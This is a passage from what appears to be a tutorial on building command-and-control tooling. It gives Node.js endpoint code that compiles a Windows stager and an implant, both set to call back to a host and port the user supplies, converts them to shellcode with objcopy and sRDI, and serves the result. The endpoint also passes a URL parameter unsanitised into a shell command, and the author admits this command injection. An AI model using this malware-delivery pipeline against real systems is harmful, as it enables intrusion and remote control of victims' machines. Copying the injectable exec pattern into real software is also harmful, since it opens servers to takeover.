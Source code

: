 Next let's define an endpoint where we can request a stager from. We will allow the user to specify the host, port, and payload name in the URL.

```c
app.get('/stager/:host/:port/:payloadname', async function (req, res){
  fs.readFile('./stager.c', 'utf8', function(err, data) {
    let buff = new Buffer(data, 'utf8')
    buff = buff.toString()
    buff = buff.replace("%SITENAME%", req.params.host.split("").join("','"))
    buff = buff.replace("%PORT%", req.params.port)
    var payloadSplit = "payloads/" + req.params.payloadname
    buff = buff.replace("%SITEPARAM%", payloadSplit.split("").join("','"))
    fs.writeFile('./modified_stager.c', buff, (err) => {
    })
  })

  var {stdout, stderr} = await exec(`x86_64-w64-mingw32-gcc-win32 ./modified_stager.c -nostdlib -ffunction-sections -fno-ident -fno-asynchronous-unwind-tables -w -O2 -Wl,-e,AlignRSP -o ./compiled_stager.exe && objcopy -O binary --only-section=.text ./compiled_stager.exe ./shellcode.bin`)

  fs.readFile('./implant.c', 'utf8', function(err, data){
    let buff = new Buffer(data, 'utf8')
    buff = buff.toString()
    buff = buff.replace("%SITENAME%", req.params.host)
    buff = buff.replace("%PORT%", req.params.port)
    buff = buff.replace("%SITEPARAM%", "success")
    fs.writeFile('./modified_implant.c', buff, (err) => {
    })
  })

  var {stdout, stderr} = await exec(`x86_64-w64-mingw32-gcc-win32 ./modified_implant.c -o modified_implant.exe -lwininet -lwinhttp -w && python3 srdi/Python/ConvertToShellcode.py modified_implant.exe && mv modified_implant.bin ./payloads/${req.params.payloadname}`)

  fs.readFile("./shellcode.bin", null, function(err, data){
    res.send(data)
  })
})
```

First, we will read our stager file and replace some placeholder variables. We'll need to use some weird string manipulation here, since we need to turn **EXAMPLE** into **E','X','A','M','P','L','E** to conform with our dynamic string format. After we replace our strings, then we'll run our mingw-w64 command to compile it and objcopy to grab the .text section. We're eventually going to return this to the client but first we'll compile the accompanying implant.

To compile our implant we're going to do essentially the same thing as above. For the sake of simplicity we'll just use the same host and port as our stager but this could easily be changed. Then we'll compile the executable, use sRDI to generate our shellcode, and then move it to the desired payload name. Then finally we can send the shellcode to the user.

You may have also noticed that this piece of code is almost certainly vulnerable to command injection when compiling the implant via the payload name parameter, and you would be correct. In a real application we would be sanitizing all of our inputs and only accepting alphanumerics plus a period for the extension, but I don't want to bloat these snippets more than necessary for a demo.
